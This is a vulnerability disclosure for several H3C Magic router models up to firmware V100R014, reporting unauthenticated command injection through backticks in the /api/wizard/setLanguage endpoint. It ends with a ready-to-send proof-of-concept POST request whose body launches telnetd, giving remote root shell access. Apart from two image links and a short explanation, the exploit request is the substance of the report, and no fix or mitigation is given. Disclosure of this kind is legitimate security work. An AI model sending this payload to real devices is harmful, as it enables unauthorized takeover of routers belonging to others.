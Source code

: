 # Information

**Vendor of the products:** H3C Technologies Co., Ltd.

**Vendor's website:** https://www.h3c.com/

**Reported by:** Zhao Jiang Ting(sta8r9@163.com)

**Affected products:** H3C Magic NX30 Pro\H3C NX400\H3C NX15\H3C R3010\H3C BE18000

**Affected firmware version:** <=V100R014 

**Firmware download address:** [H3C NX15V100R014](https://www.h3c.com/cn/d_202409/2263952_30005_0.htm)

# Overview

In the `H3C Magic` series products, `H3C Magic NX30 Pro` and `H3C NX400`and H3C NX15  and H3C R3010 and H3C BE18000 allow an attacker to send a specially crafted `POST` request to the `/api/wizard/setLanguage` route without authorization, enabling remote code execution with the highest privileges.



# Vulnerability details

When the route is `/wizard/setLanguage`, it can enter its handler function.

![image-20250317234347826](https://github-tupian.oss-cn-beijing.aliyuncs.com/20250317234347866.png)

`v14` is user-controllable. Although the `FCGI_CheckStringIfContainsSemicolon` function is used to filter dangerous characters, it fails to filter backticks, leading to command injection.

![image-20250314113946900](https://github-tupian.oss-cn-beijing.aliyuncs.com/20250317232620671.png)



# POC

```
POST /api/wizard/setLanguage HTTP/1.1
Host: 192.168.124.1
Content-Length: 11
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://192.168.124.1
Referer: http://192.168.124.1/home
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

'`telnetd`'
```

